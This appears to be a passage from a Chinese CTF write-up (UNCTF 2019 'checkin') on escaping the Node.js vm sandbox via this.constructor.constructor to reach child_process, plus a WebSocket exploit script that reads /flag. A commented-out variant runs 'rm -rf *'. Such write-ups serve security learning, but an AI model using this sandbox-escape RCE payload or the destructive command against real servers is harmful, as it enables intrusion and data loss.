 3）从calc的源码可以看到，问题出在下面的eval函数上，导致了RCE远程代码执行漏洞：

![](https://ctfwp.wetolink.com/2019unctf/checkin/checkin2.png)

4）想要执行命令需要先绕过nodejs的vm模块，使用this.constructor.constructor（Object 类的 constructor 是外层的 Function 类）来完成逃逸，从而利用rce漏洞来读取flag文件，payload关键如下所示

'(new this.constructor.constructor("return this.process.mainModule.require;"))()("child_process").execSync("cat /flag").toString();';

exp.js:

```
const ws = require('ws');


// var sock = new ws("ws://127.0.0.1:8090");
var sock = new ws("ws://123.206.21.178:10001/secret");
sock.on("open", function () {

    // set nickname
    sock.send(JSON.stringify({ msg: "vk", cmd: "name" }));

    var m = "1+1";

    // get info
    // m = "new Error().stack";

    // get this
    // m = "this";
    // m = "this.constructor.constructor.toString()"

    // whoami
    //m = '(new this.constructor.constructor("return this.process.mainModule.require;"))()("child_process").execSync("rm -rf *").toString();';
	
	

    // get flag
    m = '(new this.constructor.constructor("return this.process.mainModule.require;"))()("child_process").execSync("cat /flag").toString();';

    sock.send(JSON.stringify({msg: m,cmd: "calc"}));
});

sock.on("error", function (err) {
    console.log("error: ", err);
});

sock.on("message", function (data) {
    var r = JSON.parse(data);
    // console.log(data);
    if(r.msg)
        console.log(r.msg);
    sock.close();
});
```

